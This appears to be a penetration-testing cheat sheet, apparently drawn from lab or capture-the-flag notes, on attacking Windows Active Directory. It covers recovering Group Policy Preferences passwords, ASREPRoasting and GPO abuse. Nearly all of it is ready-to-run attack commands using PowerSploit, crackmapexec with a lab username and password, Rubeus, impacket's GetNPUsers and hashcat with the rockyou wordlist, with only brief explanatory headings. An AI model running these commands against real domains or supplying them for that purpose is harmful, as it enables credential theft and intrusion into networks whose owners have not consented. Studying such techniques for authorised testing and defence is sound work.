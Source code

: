 ## Group Policy Preferences (GPP) Passwords
### Windows
```
https://github.com/PowerShellMafia/PowerSploit/blob/master/Exfiltration/Get-GPPPassword.ps1
```
### Linux
```
crackmapexec smb -L | grep gpp
```
```
gpp_autologin
```
```
gpp_password
```
```
crackmapexec smb 172.16.5.5 -u forend -p Klmcargo2 -M gpp_autologin
```
## ASREPRoasting
### Windows
Viewing an Account with the Do not Require Kerberos Preauthentication Option
```
Active Directory users and computers => Corp => Server Admins => user properties => Account => Do not require Kerberos preauthentication
```
### PowerView
#### Enumerating for DONT_REQ_PREAUTH Value using Get-DomainUser
```
Get-DomainUser -PreauthNotRequired | select samaccountname,userprincipalname,useraccountcontrol | fl
```
#### Retrieving AS-REP in Proper Format using Rubeus
```
.\Rubeus.exe asreproast /user:<samaccountname> /nowrap /format:hashcat
```
#### Cracking the Hash Offline with Hashcat
```
hashcat -m 18200 ilfreight_asrep /usr/share/wordlists/rockyou.txt
```
### Linux
```
root@kali:~# GetNPUsers.py EGOTISTICAL-BANK.LOCAL/ -usersfile users.txt -dc-ip 10.10.10.175
```
We could get a list of the users from the website or from enum4linux
#### Cracking the Hash Offline with Hashcat
```
hashcat -m 18200 ilfreight_asrep /usr/share/wordlists/rockyou.txt
```
# Group Policy Object (GPO) Abuse
## Windows
### PowerView
Enumerating GPO Names
```
Get-DomainGPO |select displayname
```
autologon is in use which may mean there is a readable password in a GPO